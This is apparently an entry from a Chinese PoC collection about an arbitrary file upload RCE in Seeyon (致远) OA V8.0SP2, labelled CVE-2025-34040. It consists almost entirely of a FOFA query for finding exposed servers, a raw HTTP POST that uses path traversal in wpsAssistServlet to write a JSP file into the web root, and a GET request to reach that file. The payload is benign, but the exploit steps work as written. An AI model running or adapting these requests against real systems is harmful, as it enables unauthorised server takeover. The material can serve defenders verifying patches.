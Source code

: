 # 致远OA存在文件上传导致RCE(CVE-2025-34040)

致远oa存在任意文件上传漏洞，可以获取服务器权限

## fofa

```javascript
app="致远互联-OA" && title="V8.0SP2"
```

## poc

```javascript
POST /seeyon/wpsAssistServlet?flag=save&realFileType=../../../../ApacheJetspeed/webapps/ROOT/Hello.jsp&fileId=2 HTTP/1.1
Host: 
Content-Type: multipart/form-data; boundary=59229605f98b8cf290a7b8908b34616b
Accept-Encoding: gzip

--59229605f98b8cf290a7b8908b34616b
Content-Disposition: form-data; name="upload"; filename="123.xls"
Content-Type: application/vnd.ms-excel

<% out.println("HelloWorld");%>
--59229605f98b8cf290a7b8908b34616b--
```
访问地址
```
GET /Hello.jsp HTTP/1.1
Host:
```
